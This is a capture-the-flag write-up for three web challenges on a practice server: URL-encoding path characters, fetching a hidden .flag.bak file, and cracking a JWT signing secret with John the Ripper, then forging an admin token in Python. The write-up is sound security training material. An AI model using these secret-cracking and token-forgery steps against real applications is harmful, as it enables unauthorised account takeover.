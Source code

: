# ES_Community_CTF_Writeups

 
## I- Challenge name: Web 1
- This challenge contains a link that takes you to http://pentestbox.ml:8500/can_y#u_get_the_flag?! but nothing appears there.
 ---> It turns out that everything after "#" is used as a fragment. So, Here we need to URL-Encode "#" (%23) to make it a part of the path. Still there is a "?" which indicates  the start of parameters as well to make it part of the path, same thing is done we only need to URL-Encode it. 

- Final request: curl "http://pentestbox.ml:8500/can_y%23u_get_the_flag%3f!
- Flag: Sp4rk{UwU-UwU-noob}

## II- Challenge name: Backup files
- Here if you either bruteforce or read thoroughly the description you will find that there is a directory named "/admin" where directory listing is open but there is nothing there. However, there is something called hidden files.

- A hidden file is a file which has the hidden attribute turned on so that it is not visible to users when exploring or listing files.

- Now, we know that the file is hidden, named "flag" (From the description of the task) and it is a backup file so the extension would be .bak. 

So, our final request would look like this: curl "http://pentestbox.ml:8500/admin/.flag.bak"

- The period (.) at the beginning of the new filename indicates that it’s hidden.

Flag: Sp4rk{Directory_listing_Spark_99}

## III- Challenge name: Just War Theory (JWT)

- Opening the link you will find a login form if you enter random credentials and hit the login button the app will return valid login credentials in the response. Since they are valid if you use them the app will return a valid JWT token. 

- So, What can we do here !? There was a wordlist attached with the challenge description. Clearly, we're gonna use that wordlist to crack the JWT and find the secret used to sign the token.

- Here I, used JohnTheRipper to crack the token with the following command: 

`john jwt.txt --wordlist=Most-Popular-Letter-Passes.txt --format=HMAC-SHA256`

- Where the john is the command name, jwt.txt is a text file where we put the token returned after loggin in with the valid credentials, --wordlist=Most-Popular-Letter-Passes.txt is the wordlist given to us by the author and --format=HMAC-SHA256 is the algorithm used to generate the signature.

- The tool will return that the secret is SparkLoveYou. Now, we do have the secret we can modify the information in the payload header and sign the token with the secret. This can be done either with a python script or using the jwt.io website.

- Python script:
```
import jwt
encoded_jwt = jwt.encode({"auth": 1639697090031, "agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36", "role": "admin", "iat": 1639697090}, "SparkLoveYou", algorithm="HS256")
print(encoded_jwt)
```

- Obtained JWT:
`eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoxNjM5Njk3MDkwMDMxLCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS85Ni4wLjQ2NjQuMTEwIFNhZmFyaS81MzcuMzYiLCJyb2xlIjoiYWRtaW4iLCJpYXQiOjE2Mzk2OTcwOTB9.nmECW7V1TWIF3Fx8_9MCUzpLkWNWWthzlBOZ4asq650`

- To do the exact same thing done with the script: Open https://jwt.io/ put the token there, replace `user` with `admin` and put the secret in the verify signature section.

- Finally, if you send the forged token in the cookie named `token` the app will return the flag.

Flag: sp4rk{JwT_ARe_Not_Bad}c7f
